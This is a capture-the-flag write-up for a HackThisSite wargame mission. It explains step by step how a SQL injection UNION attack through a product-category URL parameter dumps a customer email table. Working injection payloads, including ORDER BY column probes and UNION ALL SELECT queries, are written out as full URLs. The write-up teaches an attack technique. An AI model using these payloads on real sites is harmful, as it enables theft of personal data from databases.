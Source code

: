 # Mission 4
https://www.hackthissite.org/playlevel/4/

- [Overview](#overview)
- [Solution](#solution)
  * [Initial Observations](#initial-observations)
  * [Finding Another Weakness](#finding-another-weakness)
  * [Setting Up the UNION Attack](#setting-up-the-union-attack)
- [Key Concept](#key-concept)
- [Key Ideas](#key-ideas)

## Overview
FAP is a company that slaughters animals and turns their skin into overpriced products which are then sold to rich bastards! Help animal rights activists increase political awareness by hacking their mailing list.

From: SaveTheWhales

Message: Hello, I was referred to you by a friend who says you know how to hack into computers and web sites - well I was wondering if you could help me out here. There's this local store who is killing hundreds of animals a day exclusively for the purpose of selling jackets and purses etc out of their skin! I have been to their website and they have an email list for their customers. I was wondering if you could somehow hack in and send me every email address on that list? I want to send them a message letting them know of the murder they are wearing. Just reply to this message with a list of the email addresses. Please?

## Solution
### Initial Observations
The website we're targeting has a list of customer email addresses and we need to retrieve them. A list of email addresses almost certainly means we're dealing with a database, and we've seen databases are susceptible to SQL injection attacks. Without even seeing the site in detail it sounds like we have our attack vector. But keep in mind this seems different than the SQL injection tactic we used in [Realistic Mission 2](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_02.md), where we used a SQL injection to bypass a login screen. This mission seems more about dumping a database's content.

The mission website has two pages with product contents, generated using some sort of PHP script (as evidenced by the products.php literal which appears in the URL structure when you open those pages, similar in some respects to pages in [Realistic Mission 3](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_03.md)). On the main page, there's a form to fill out to sign up for the mailing list. Enter a string which looks like a valid email address, click add to list, and you get a message saying 'Email added successfully'.

I thought maybe the solution was similar to the one in Mission 2, so I tried some of the common SQL injections I found [here](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens). None seemed to work, but I did get this error message: 'Error inserting into table "email"! Email not valid! Please contact an administrator of Fischer's'.

The error message never changed, so I concluded the solution wasn't as simple as putting the payload into the form box. But this message revealed an important detail: the table containing the email addresses we want is named email. If only there was somewhere I could run a SQL query like `SELECT * FROM email;` or `SELECT email FROM email;`, that would give me what I'm looking for.

### Finding Another Weakness
Since the mailing list form was a dead end, I went back to the two product listing pages, https://www.hackthissite.org/missions/realistic/4/products.php?category=1 and https://www.hackthissite.org/missions/realistic/4/products.php?category=2. That's when I realized these pages must be associated with another table. The category=1 and category=2 parts of the URLs are parameters for querying this second table. What happens if we give this table an invalid input, like a category value which doesn't exist? Ideally, I should get a 404 HTTP response.

I tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=3 and a white page loaded. I didn't explicitly get a 404 response, so to confirm I opened developer tools, pulled open the network tab so I could view the flow of HTTP requests, and reloaded the page. Sure enough, I could see the document returned a 200 response code. In other words, we just gave the site an input it absolutely should have rejected as invalid, but it didn't. I then tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=ABC and got a broken image icon in my response. Another promising sign!

Before going any further it's important to think about how this page loads, similar to what we did in Realistic Mission 2. The backend code clearly involves a SQL query again, and for a URL like https://www.hackthissite.org/missions/realistic/4/products.php?category=1, it's probably something like this:
```
page_category = getRequestString("category");

sql = "SELECT * FROM [products] WHERE Category ='" + page_category + "'"
```

We've got a URL where we can tamper with a SQL query, but this query is tied to the wrong table. We want email addresses in the email table, not whatever this table is. Fortunately, PortSwigger's [SQL injection](https://portswigger.net/web-security/sql-injection) content references multiple types of injections, including the [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) which allows you to get data from different tables. I was already familiar with [UNION or UNION ALL](https://www.w3schools.com/sql/sql_ref_union.asp) commands through prior experience with SQL, but this seems relevant to the problem we're trying to solve. PortSwigger mentions, however, a successful UNION attack requires the individual queries to return the same number of columns. So we need to figure out how many columns are in both tables, products and email.

### Setting Up the UNION Attack
I saw hints that using the ORDER BY command would be helpful in learning about the products table schema. So I tried the following:
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1 loads the page as intended.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DASC flips the sorting of the page contents according to the pictures. This suggests the image data type is the first column in the products table.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DASC didn't change the page contents. But there's a common string, 'A big hairy fur coat that is made of fuzzy cute animals that we mercilessly slaughtered' in each product description, so this means the product description is probably the second column. It's a string data type.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20ASC sorts by price. This means price is the third column, probably as a string, too.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420ASC didn't change any sorting again. But many SQL tables have an ID column, so maybe this is it.
* URLs containing https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%205 returned the broken image icon. I think that means there's no fifth column. The products table only has four columns, which makes sense.

As far as we know the email table only has one column, but we can fake more using NULL in our SELECT statement, like this: `SELECT email, NULL, NULL, NULL FROM email`.

I tried https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20email,%20null,%20null,%20null%20FROM%20email. The page loads with the usual page contents, but if you scroll down there are nine additional broken images. This seems close, but the issue now is the data types aren't right. If the first column of the products table is an image, SQL is expecting the first column of email to also be an image. The email column is a string, so we need that column to line up with another string column in the product table. The second column of the products table will do the trick. We need to change our SQL query to `SELECT NULL, email, NULL, NULL FROM email` or `SELECT NULL, NULL, email, NULL FROM email`.

Try https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20email,%20null,%20null%20FROM%20email or https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20null,%20email,%20null%20FROM%20email, and there are your email addresses. Copy them and message them to SaveTheWhales.

## Key Concept
SQL injection, specifically UNION attacks

## Key Ideas
This mission expanded on prior SQL injection knowledge. We've now seen an example of how SQL injections can help us retrieve data from other tables in a site's database. This is in addition to Realistic Mission 2, where we used a SQL injection to bypass a login screen.

This discovery came at the expense of realizing the mailing list signup functionality was a bit of a misdirection. By tampering with it we were able to learn the name of the table we were targeting, but eventually I realized I needed to try my fortunes elsewhere on the site. Realizing I could enter invalid inputs into the https://www.hackthissite.org/missions/realistic/4/products.php?category= made me realize I was onto something, even though I needed a few hints to properly sketch out what the solution entailed.